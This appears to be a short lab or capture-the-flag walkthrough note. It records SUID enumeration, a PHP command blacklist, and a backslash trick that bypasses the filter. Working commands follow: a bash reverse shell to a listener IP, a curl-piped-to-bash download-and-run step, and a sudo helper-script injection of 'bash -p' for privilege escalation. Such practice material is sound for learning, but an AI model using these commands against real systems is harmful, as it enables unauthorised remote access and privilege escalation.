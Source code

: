 ```
# find / -perm -u=s -type f 2>/dev/null” 
---> shows list of suid binaries

/usr/lib/openssh/ssh-keysign 
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic 
/usr/lib/snapd/snap-confine 
/usr/lib/policykit-1/polkit-agent-helper-1 
/usr/lib/dbus-1.0/dbus-daemon-launch-helper 
/usr/lib/eject/dmcrypt-get-device 
/usr/bin/sudo 
/usr/bin/newgidmap 
/usr/bin/gpasswd 
/usr/bin/newuidmap 
/usr/bin/traceroute6.iputils 
/usr/bin/newgrp 
/usr/bin/pkexec
 /usr/bin/passwd 
 /usr/bin/at 
 /usr/bin/chfn 
 /usr/bin/chsh 
 /bin/su 
 /bin/mount 
 /bin/fusermount 
 /bin/ping 
 /bin/umount 


  /usr/bin/passwd  ----> gives changing password for www-data

  # sudo -u /home/apaar/.helpline.sh  bash ---> doesnt work

# command has to be bypassed by a slash e.g `c\at index.php` which gives a list of blacklisted commands:

                  $blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');



Create a script that gives reverse shell
bash -c 'exec bash -i &>/dev/tcp/10.6.46.150/4444 <&1'

and run python server:
python3 -m http.server

and then execute curl with bash as backslash to execute it and bypass filter


curl 10.6.46.150:8000/shell.sh | b\ash



# www-data@ubuntu:/home/apaar$ sudo -u apaar /home/apaar/.helpline.sh -q /dev/null
sudo -u apaar /home/apaar/.helpline.sh -q /dev/null

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: bash -p
bash -p
Hello user! I am bash -p,  Please enter your message: bash -p
bash -p
id
id
```